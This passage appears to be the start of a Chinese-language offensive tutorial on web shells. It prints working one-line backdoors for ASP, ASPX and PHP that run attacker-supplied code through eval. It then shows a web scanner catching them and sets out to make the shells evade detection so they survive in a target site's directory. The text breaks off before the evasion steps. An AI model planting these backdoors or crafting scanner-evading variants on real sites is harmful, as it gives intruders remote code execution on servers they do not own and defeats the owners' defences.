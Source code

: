 已准备工具：

D 盾 _Web 查杀(D 盾杀的 Shell 比较全)

ASP、ASPX、PHP 原生态无污染一句话

```
<%eval request("z")%>；
<%@ Page Language="Jscript"%><%eval(Request.Item["z"],"unsafe");%>；
<?php @eval($_POST['z']);?> 
```

来看一下 D 盾对原生一句话的查杀情况吧！

![2013122817573781043_jpg.jpg](img/img1_u121_jpg.jpg)

Shit!，级别为 5(eval 后门)全部杀掉！这样也就是说即使你的一句话已经躺在目标网站目录了，访问的时候也会被 WAF 断掉连接。这样一句话本身也就失去意义了，更别说去使用它了。

那么这种情况下该怎么做呢？我的答案是：就像 Windows 下做 exe 的免杀一样，找到杀软件杀掉的特征码然后改掉或是绕过。当然免杀 Shell 比免杀 exe 简单的多了……

开始对我们的一句话做“免杀”吧！在此之前先来了解一句话木马的原理。对比下 asp、aspx、php 一句话，你发现了什么？
